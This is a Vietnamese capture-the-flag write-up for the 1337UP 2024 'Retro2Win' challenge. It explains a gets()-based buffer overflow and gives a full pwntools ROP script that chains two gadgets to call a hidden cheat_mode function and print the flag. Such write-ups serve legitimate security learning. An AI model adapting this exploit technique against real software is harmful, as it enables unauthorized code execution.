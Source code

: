# [1337UP-2024] Retro2Win
<p>Chương trình đưa ra 4 lựa chọn: 1, 2, 3 và 1337.</p>

![alt text](/thanhlai/post/pwnable/image/post6/image-1.png)

<p>Đầu tiên, ta sẽ xem hàm enter_cheatcode sau khi chọn 1337. Dòng 6, sử dụng hàm gets để đọc dữ liệu vào v1 -> Buffer overflow. Dòng 7, hàm printf leak ra chuỗi tại địa chỉ v1.</p>

![alt text](/thanhlai/post/pwnable/image/post6/image.png)

<p>Quan sát bảng Functions, ta có hàm cheat_mode in ra nội dung flag nếu giá trị tham số thứ 1 và 2 thỏa điều kiện.</p>

![alt text](/thanhlai/post/pwnable/image/post6/image-2.png)

<p>Sử dụng công cụ ropper lấy hai gadgets để set giá trị cho hai tham số. Trong gadget thứ 2, có lệnh pop r15 ở giữa nên cần padding thêm 8 byte sau khi lấy 8 byte ở rsp đem vào rsi.</p>

![alt text](/thanhlai/post/pwnable/image/post6/image-3.png)

<p>Script exploit:</p>

```
from pwnable import *

p = process('./retro2win')
elf = ELF('./retro2win')

p.sendlineafter(b'Select an option:', b'1337')

pop_rdi = p64(0x00000000004009b3)
pop_rsi = p64(0x00000000004009b1)
cheat_mode_addr = p64(elf.sym['cheat_mode'])

payload = b'a'*24 
payload += pop_rdi + p64(0x2323232323232323)
payload += pop_rsi + p64(0x4242424242424242)
payload += b'b' * 8
payload += cheat_mode_addr

p.sendlineafter(b'Enter your cheatcode:', payload)

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/pwnable/image/post6/image-5.png)